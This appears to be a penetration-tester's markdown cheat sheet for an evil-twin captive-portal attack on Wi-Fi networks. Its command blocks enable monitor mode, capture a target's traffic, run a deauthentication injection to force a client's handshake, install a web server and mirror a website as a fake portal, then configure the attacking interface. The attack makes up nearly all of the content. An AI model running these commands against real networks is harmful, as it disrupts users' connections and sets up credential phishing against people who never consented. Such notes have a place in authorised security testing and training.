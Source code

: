 # Captive Ports


## Commands

## Commands

* Run [reconnaissance](../reconnaissance.md) first

### Capture some data

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq
```

### Build the Captive Portal

```bash

# Install the dependencies to build our captive port website
sudo apt-get install apache2 libapache2-mod-php

# Use the premade one
wget -r -l2 https://www.megacorpone.com
```


### Set up Network

```bash

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```


## References

* [Wiki](https://en.wikipedia.org/wiki/Captive_portal)